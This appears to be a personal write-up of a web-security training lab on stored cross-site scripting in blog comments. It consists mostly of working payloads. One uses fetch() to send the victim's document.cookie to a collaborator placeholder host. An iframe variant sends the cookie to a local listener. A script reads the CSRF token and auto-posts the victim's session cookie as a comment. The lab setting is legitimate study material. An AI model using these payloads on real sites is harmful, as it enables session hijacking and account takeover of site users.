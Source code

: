 Title: Exploiting cross-site scripting to steal cookies
Level: PRACTITIONER
Desc: This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim. 

fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});

<iframe width='1' height='1' src="javascript:var
url='http://0.0.0.0:9000?';url=url.concat(document.cookie);fetch(url);">
  
```
<script>
  var csrfToken = document.querySelector('input[name="csrf"]').value;
</script>
<form method="POST" action="https://0ab5000803d221408084030300750016.web-security-academy.net/post/comment">
    <input type="hidden" name="postId" value="4">
    <input type="hidden" name="comment" value="test">
    <input type="hidden" name="name" id="nameId">
    <input type="hidden" name="email" value="test@test.ts">
    <input type="hidden" name="website" value="https://sdkldl.com">
    <input type="hidden" name="csrf" id="csrfId">
</form>
<script>
  document.addEventListener('DOMContentLoaded', function() {
  var form = document.querySelector('section.add-comment form');
  var csrfToken = form.querySelector('input[name="csrf"]').value;
  console.log(csrfToken);
  //document.querySelector('#myForm input[name="csrf"]').value = csrfToken;
  var cookie = document.cookie;
  document.querySelector('#nameId').value = cookie;
  document.querySelector('#csrfId').value = csrfToken;
  document.forms[0].submit();
  });
</script>
```
  
To get the csrf :)))))
```
<script>
  document.addEventListener('DOMContentLoaded', function() {
    var form = document.querySelector('section.add-comment form');
    var csrfToken = form.querySelector('input[name="csrf"]').value;
    console.log(csrfToken);
  });
</script>
```

<img width="757" height="482" alt="image" src="https://github.com/user-attachments/assets/86b65cfd-30d5-4f44-9cd7-964a82aac733" />

